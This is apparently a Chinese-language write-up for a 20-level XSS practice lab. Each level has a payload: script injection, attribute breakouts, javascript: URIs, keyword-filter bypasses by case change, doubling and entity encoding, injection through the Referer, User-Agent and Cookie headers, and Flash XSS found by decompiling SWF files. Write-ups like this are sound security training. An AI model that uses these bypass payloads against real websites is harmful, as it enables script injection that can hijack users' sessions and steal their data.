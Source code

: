 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15
与上一关相似，修改响应包数据：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(12).png height="300" width="650"></br>
```
payload："><script>alert(1)</script><"
```

## level16
经测试，script和/均被过滤，空格符号也无法使用，但是on事件可以使用。使用img标签，将空格用url编码%0a、%0b、%0d替换，测试成功。</br>
```
payload：?keyword=<img%0dsrc=a%0donerror=alert(1)>
```

## level17
从上一关跳转到本关，URL中有两个参数?arg01=a&arg02=b；右键查看源码，是embed标签，它支持on事件，可以在参数b后面空格注入on事件构造payload。
```
payload：?arg01=a&arg02=b%20onmousedown=alert(1)
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(13).png></br>

## level 18
与上一关相似。这两关也都可以在第一个参数后加空格来绕过。</br>
```
payload1：?arg01=a&arg02=b%20onmouseup=alert(1)
payload2：?arg01=%20onmouseup&arg02=alert(1)
```

## level19
与上面一关解题思路一样，但是输入内容被加了双引号，使用双引号闭合却发现双引号被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(14).png></br>
到了这一关卡，使用Google Chrome和FireFox浏览器已经不能满足题目环境要求了，因为这最后两关卡涉及Flash XSS，需要浏览器支持Flash文件。我们下载QQ浏览器并安装Flash再来看题目，并且学习Flash XSS的知识：https://www.secpulse.com/archives/44299.html。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(15).png></br>
看本关的页面看不出来任何东西，重点还是需要看xsf03.swf这个文件本身，专门下载一个编辑Flash文件.swf的软件JPEXSFreeFlashDecompiler来查看代码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(16).png></br>
xsf03.swf文件打开后里面有一系列文件，我们重点看脚本中的sIFR.js文件，几个关键变量复制出来：</br>
```
static var DEFAULT_TEXT = "Rendered with sIFR 3, revision 436<br><strong>Rendered with sIFR 3, revision 436</strong><br><em>Rendered with sIFR 3, revision 436</em><br><strong><em>Rendered with sIFR 3, revision 436</em></strong>";
static var VERSION_WARNING = "Movie (436) is incompatible with sifr.js (%s). Use movie of %s.<br><strong>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</strong><br><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em><br><strong><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em></strong>";
static var VERSION = "436";
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(17).png></br>
继续看上图中的逻辑代码，大致意思是入参version如果等于436，页面显示DEFAULT_TEXT内容；如果入参version不等于436，则页面显示VERSION_WARNING内容，注意VERSION_WARNING内容包含一个未过滤的version入参。</br>
再回到本关内容，根据前两关思路，继续利用arg01和arg02两个参数构造测试：</br>
```
?arg01=version&arg02=436
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(18).png></br>
```
?arg01=version&arg02=888
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(19).png></br>
```
最终构造出payload：?arg01=version&arg02=<a href="javascript:alert(1)">888</a>
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(20).png></br>

## level20
借鉴博客：https://blog.csdn.net/u014029795/article/details/103217680</br>
先使用软件JPEXSFreeFlashDecompiler把xsf04.swf中的关键代码拿出来：</br>
```
package
{
   import flash.display.LoaderInfo;
   import flash.display.Sprite;
   import flash.display.StageScaleMode;
   import flash.events.Event;
   import flash.events.MouseEvent;
   import flash.external.ExternalInterface;
   import flash.system.Security;
   import flash.system.System;
   
   public class ZeroClipboard extends Sprite
   {  
      private var button:Sprite;
      
      private var id:String = "";
      
      private var clipText:String = "";
      
      public function ZeroClipboard()
      {
         super();
         stage.scaleMode = StageScaleMode.EXACT_FIT;
         Security.allowDomain("*");
         var flashvars:Object = LoaderInfo(this.root.loaderInfo).parameters;
         id = flashvars.id;
         button = new Sprite();
         button.buttonMode = true;
         button.useHandCursor = true;
         button.graphics.beginFill(13434624);
         button.graphics.drawRect(0,0,Math.floor(flashvars.width),Math.floor(flashvars.height));
         button.alpha = 0;
         addChild(button);
         button.addEventListener(MouseEvent.CLICK,clickHandler);
         button.addEventListener(MouseEvent.MOUSE_OVER,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOver",null);
         });
         button.addEventListener(MouseEvent.MOUSE_OUT,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOut",null);
         });
         button.addEventListener(MouseEvent.MOUSE_DOWN,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseDown",null);
         });
         button.addEventListener(MouseEvent.MOUSE_UP,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseUp",null);
         });
         ExternalInterface.addCallback("setHandCursor",setHandCursor);
         ExternalInterface.addCallback("setText",setText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"load",null);
      }
      
      public function setHandCursor(param1:Boolean) : *
      {
         button.useHandCursor = param1;
      }
      
      private function clickHandler(param1:Event) : void
      {
         System.setClipboard(clipText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"complete",clipText);
      }
      
      public function setText(param1:*) : *
      {
         clipText = param1;
      }
   }
}
```













